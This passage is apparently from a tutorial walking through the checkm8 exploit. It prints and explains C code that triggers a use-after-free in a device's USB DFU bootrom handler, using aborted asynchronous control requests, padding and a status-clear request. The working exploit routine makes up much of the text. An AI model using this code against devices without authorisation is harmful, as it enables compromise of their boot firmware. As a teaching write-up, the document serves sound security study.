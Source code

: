 Here's my function that triggers the use-after-free:

```c
bool checkm8TriggerUaF(device_t *device)
{
  unsigned usbAbortTimeout = 10;
  transfer_ret_t transferRet;

  while(sendUSBControlRequestAsyncNoData(&device->handle, 0x21, DFU_DNLOAD, 0, 0, 0x800, usbAbortTimeout, &transferRet)) {
    if(transferRet.sz < config.overwritePadding 
    && sendUSBControlRequestNoData(&device->handle, 0, 0, 0, 0, config.overwritePadding - transferRet.sz, &transferRet) 
    && transferRet.ret == USB_TRANSFER_STALL) {
      sendUSBControlRequestNoData(&device->handle, 0x21, DFU_CLRSTATUS, 0, 0, 0, NULL);
      return true;
    }
    if(!sendUSBControlRequestNoData(&device->handle, 0x21, DFU_DNLOAD, 0, 0, EP0_MAX_PACKET_SIZE, NULL)) {
      break;
    }
    usbAbortTimeout = (usbAbortTimeout + 1) % 10;
  }
  return false;
}
```

First of all, let's discuss the while loop:
```c
  while(sendUSBControlRequestAsyncNoData(&device->handle, 0x21, DFU_DNLOAD, 0, 0, 0x800, usbAbortTimeout, &transferRet)) {
    // ... //
    usbAbortTimeout = (usbAbortTimeout + 1) % 10;
  }
```
So essentially what is happening here is that we are sending the required packet to set the global variables, but we continue sending it asynchronously with a shorter and shorter timeout until it is cancelled mid-way through. This is done to achieve the partially complete data phase state on the device.

It's interesting to note that we never ever have to actually send data in order to trigger this use-after-free. Sending the `0x21, DFU_DNLOAD` request will set the global variables _and_ set the global data phase variable to true.

```c
  if(transferRet.sz < config.overwritePadding 
      && sendUSBControlRequestNoData(&device->handle, 0, 0, 0, 0, config.overwritePadding - transferRet.sz, &transferRet) 
      && transferRet.ret == USB_TRANSFER_STALL) {
      sendUSBControlRequestNoData(&device->handle, 0x21, DFU_CLRSTATUS, 0, 0, 0, NULL);
      return true;
  }
```
Once we have sent the asynchronous request from above, we check if the device returned a size that is less than the overwrite padding. The overwrite padding ensures that the overwrite we send later on goes into the correct location in memory - but I won't go into too much detail on this.
